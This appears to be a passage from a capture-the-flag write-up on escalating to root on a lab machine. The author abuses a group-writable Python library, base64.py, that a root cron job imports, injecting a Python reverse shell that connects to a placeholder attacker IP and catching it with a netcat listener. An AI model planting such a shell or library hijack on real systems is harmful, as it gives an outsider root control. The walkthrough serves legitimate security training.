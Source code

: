 ## Privilege Escalation root

I wasn't able to execute `sudo -l`, so I searched for other escalation paths. The `crontab` had an interesting entry:
```bash
valley@valley:/home$ cat /etc/crontab
[...]
1  *    * * *   root    python3 /photos/script/photosEncrypt.py
[...]
```

As seen in the `id` output we are part of the `valleyAdmin` group, so I checked which files this group could modify:
```bash
valley@valley:/home$ find / -group valleyAdmin -type f 2>/dev/null
	/usr/lib/python3.8/base64.py
```

Interestingly, we can modify the `base64.py`, which is imported by `photosEncrypt.py`, which in turn is executed by root. To escalate privileges, I inserted a Python reverse shell into the `base.py`:
```bash
import socket,subprocess,os, pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("[attackerip]",9005))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("bash")
```

After one minute, my `netcat` listener recieved a connection, and I was able to capture the root flag:
```bash
$ nc -lnvp 9005                      
  listening on [any] 9005 ...
  connect to [attackerip] from (UNKNOWN) [10.10.203.94] 39500
root@valley:~# cd /root
root@valley:~# ls
	root.txt  snap
root@valley:~# cat root.txt
	THM{[removed]}
```

solved! :)
